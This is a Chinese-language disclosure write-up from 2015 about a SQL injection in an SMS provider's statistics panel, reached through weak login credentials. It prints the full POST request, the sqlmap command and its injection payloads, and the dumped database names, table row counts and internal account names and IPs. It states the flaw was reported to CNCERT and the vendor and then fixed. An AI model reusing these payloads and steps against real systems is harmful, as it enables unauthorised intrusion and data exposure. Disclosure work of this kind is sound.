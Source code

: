 # 某平台SQL注入影响数十万厂商

Feei <feei#feei.cn> 01/2015

> 一家短信提供商，影响涉及各行各业包括金融证券、酒店、医药、互联网等数十万企业的短信的发送记录、发送权限

## 1. 注入点

由之前扫到的弱口令，登陆进来后找到以下注入点：

```bash
POST  
http://211.***.***.62/Statistics/SumStatistics/GetSumDepartment?startTime=2015-01-25&endTime=2015-01-25&mstype=SMS&onTime=true HTTP/1.1  
Host: 211.***.***.62  
Connection: keep-alive  
Content-Length: 76  
Pragma: no-cache  
Cache-Control: no-cache  
Accept: application/json, text/javascript, */*; q=0.01  
Origin: http://211.***.***.62  
X-Requested-With: XMLHttpRequest  
DNT: 1  
Referer: http://211.***.***.62/Statistics/SumStatistics/Index  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6  
Cookie: 替换为登陆后的COOKIE  
MenusBlockIDs=10010,10011,10012,10013,10014,17000,12000,13000,14000,15000,18000,18200; ControllerName=SumStatistics
startTime=2015-01-25&endTime=2015-01-25&mstype=SMS&onTime=true
```

保存为`header`文件，使用`sqlmap`跑下。

`./sqlmap.py -r header --threads 10 --dbs -batch`

```bash
Place: POST  
Parameter: startTime  
Type: boolean-based blind  
Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)  
Payload: startTime=-6517' OR (4508=4508)#&endTime=2015-01-25&mstype=SMS&on  
Time=true  
Type: error-based  
Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause  
Payload: startTime=2015-01-25' AND (SELECT 6733 FROM(SELECT COUNT(*),CONCAT(0x716c6f6371,(SELECT (CASE WHEN (6733=6733) THEN 1 ELSE 0 END)),0x716f697771,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND '  
kjoG'='kjoG&endTime=2015-01-25&mstype=SMS&onTime=true  
Type: AND/OR time-based blind  
Title: MySQL > 5.0.11 AND time-based blind  
Payload: startTime=2015-01-25' AND SLEEP(5) AND 'JYnp'='JYnp&endTime=2015-  
01-25&mstype=SMS&onTime=true
```

## 2. 漏洞证明

涉及16个数据库

**DATABASES(16)**
```
[*] 400_gsms
[*] 400_list
[*] commission
[*] gsms2_init
[*] gsms_init
[*] information_schema
[*] list2_init
[*] list_init
[*] mos2_gsms
[*] mos_gsms
[*] mos_gsms2_1
[*] mos_gsms_2
[*] mos_list2_1
[*] mysql
[*] performance_schema
[*] test
```

影响千万级数据

```
Database: mos_gsms2_1
+-------------------------------+---------+
| Table | Entries |
+-------------------------------+---------+
| gsms_msg_ticket | 4302497 |
| gsms_contact | 4191441 |
| gsms_statereport | 4031478 |
| gsms_deduct_record | 599589 |
| gsms_user_role | 360443 |
| gsms_user_role20130408 | 360110 |
| gsms_user_role20130409 | 360052 |
| gsms_msg_frame | 359263 |
| gsms_msg_pack | 241054 |
| gsms_non_white_list | 158632 |
| gsms_red_list | 124257 |
| gsms_account_carrier_price | 100360 |
| gsms_user | 58597 |
| gsms_user20130403 | 58523 |
| gsms_user20130401 | 58518 |
| gsms_user20130312 | 58275 |
| gsms_biztype_specnum | 53074 |
| gsms_enterprise_apply_detail | 49971 |
| gsms_user_business_type | 47656 |
| gsms_enterprise_specnum_bind | 39635 |
| gsms_user_account_bind | 33256 |
| gsms_business_type | 13511 |
| gsms_capital_account | 12545 |
| gsms_enterprise_apply | 12542 |
```
**Users(56)**
```bash
[*] 'cactiuser'@'192.168.10.89'
[*] 'censerver'@'192.168.10.89'
[*] 'censerver'@'localhost'
[*] 'chengxuan'@'192.168.%'
[*] 'chengxuan'@'localhost'
[*] 'innotop'@'192.168.10.83'
[*] 'monitor'@'192.168.10.89'
[*] 'monyog'@'192.168.%'
[*] 'monyog'@'localhost'
[*] 'moshengkuo'@'192.168.%'
[*] 'mscheck'@'127.0.0.1'
[*] 'mscheck'@'192.168.%'
[*] 'mscheck'@'localhost'
[*] 'private'@'192.168.10.86'
[*] 'private'@'localhost'
[*] 'program'@'172.16.200.10'
[*] 'program'@'172.16.202.101'
[*] 'program'@'172.16.202.102'
[*] 'program'@'172.16.202.203'
[*] 'program'@'183.232.65.44'
[*] 'program'@'192.168.%'
[*] 'program'@'192.168.10.100'
[*] 'program'@'192.168.10.101'
[*] 'program'@'192.168.10.102'
[*] 'program'@'192.168.10.98'
...
[*] 'program'@'localhost'
[*] 'repl'@'192.168.10.%'
[*] 'repl'@'192.168.10.130'
[*] 'root'@'%'
[*] 'root'@'192.168.%
[*] 'root'@'localhost'
[*] 'super'@'192.168.%'
[*] 'super'@'192.168.10.86'
[*] 'super'@'localhost'
[*] 'wanglianguang'@'%'
[*] 'wanglianguang'@'192.168.%'
[*] 'wanglianguang'@'localhost'
[*] 'xiaozhuan'@'192.168.%'
[*] 'xiaozhuan'@'localhost'
```

## 3. 漏洞影响

![](images/v_xuanwu_01.gif)
![](images/v_xuanwu_02.gif)
![](images/v_xuanwu_03.gif)
![](images/v_xuanwu_04.png)
![](images/v_xuanwu_05.png)
![](images/v_xuanwu_06.png)
![](images/v_xuanwu_07.png)
![](images/v_xuanwu_08.jpg)

从结果看应该所有产品数据库都在，光短信库用户就有50000多家，短信数量千万级。还有400等产品

涉及厂商（短信发送数较多的）
- 各大银行
- 东风悦达起亚
- 安利中国
- BMW中国
- 人人快递网
- 中通物流
- 我要旅行网
- 娃哈哈集团
- GXG
- 唯品会
- 酷讯
- ...

漏洞在公开前已经报告给CNCERT、乌云和对应厂商，且漏洞已修复完毕。
